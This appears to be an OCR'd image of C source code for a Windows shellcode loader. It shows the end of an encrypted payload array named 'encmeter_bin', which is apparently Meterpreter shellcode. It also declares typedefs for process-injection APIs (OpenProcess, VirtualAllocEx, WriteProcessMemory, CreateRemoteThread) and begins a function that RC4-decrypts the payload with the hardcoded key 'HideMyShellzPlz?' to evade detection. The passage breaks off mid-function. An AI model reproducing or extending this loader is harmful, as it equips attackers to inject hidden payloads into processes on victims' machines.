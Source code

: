 ```
  0xd2, 0x9b, 0xbc, 0x7d, 0x9c, 0x14, 0x97, 0x43, 0x7b, 0x33, 0x41, 0xd3,
  0x26, 0x7f, 0xe9, 0xf1, 0xbf, 0xfb, 0xd8, 0xc5, 0x96, 0x19, 0x5e, 0x65,
  0xa3, 0xb1, 0x18, 0x44, 0x16, 0xc1, 0x63, 0x72, 0xc8, 0x53, 0xa5, 0x74,
  0xee, 0x2c, 0x7c, 0xe2, 0x0f, 0xe4, 0x11, 0x91, 0x4d, 0xe3, 0xa4, 0xa6,
  0xd9, 0xf0, 0x59, 0x97, 0xbb, 0x86, 0x1e, 0xc4, 0x68, 0x64, 0x4b, 0x45,
  0x00, 0xf0, 0x78, 0xac, 0x98, 0x21, 0xfe, 0xd3, 0xdd, 0xe8, 0xa3, 0xca,
  0x0d, 0x77, 0xb8, 0xab, 0x7c, 0xe2, 0x64, 0x26, 0x37, 0x76, 0x85, 0x92,
  0x91, 0x2e, 0x62, 0x25, 0x6b, 0x3e, 0xd5, 0xf2, 0xf0, 0x9a, 0xda, 0xc3,
  0x60, 0x90, 0xca, 0x00, 0x04, 0x19
};
unsigned int encmeter_bin_len = 510;
/****************************************************************************************************/

// define our imports
typedef HANDLE (WINAPI * OpenProcess_) (DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId);
typedef LPVOID (WINAPI * VirtualAllocEx_) (HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef WINBOOL (WINAPI * WriteProcessMemory_) (HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);
typedef HANDLE (WINAPI * CreateRemoteThread_) (HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);

BOOL DecryptShellcode()
{
    BOOL bSuccess = TRUE;

    HCRYPTKEY hCryptoKey;
    HCRYPTHASH hCryptHash;
    HCRYPTPROV hCryptoProv;

    DWORD dwLen = 16;
    BYTE* pbKey = "HideMyShellzPlz?";

    bSuccess = CryptAcquireContextW(&hCryptoProv, NULL, L"Microsoft Enhanced RSA and AES Cryptographic Provider", PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptCreateHash(hCryptoProv, CALG_SHA_256, 0, 0, &hCryptHash);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptHashData(hCryptHash, pbKey, dwLen, 0);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptDeriveKey(hCryptoProv, CALG_RC4, hCryptHash, 0,&hCryptoKey);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptDecrypt(hCryptoKey, NULL, FALSE, 0, (BYTE*)encmeter_bin, &encmeter_bin_len);
    if (!bSuccess)
```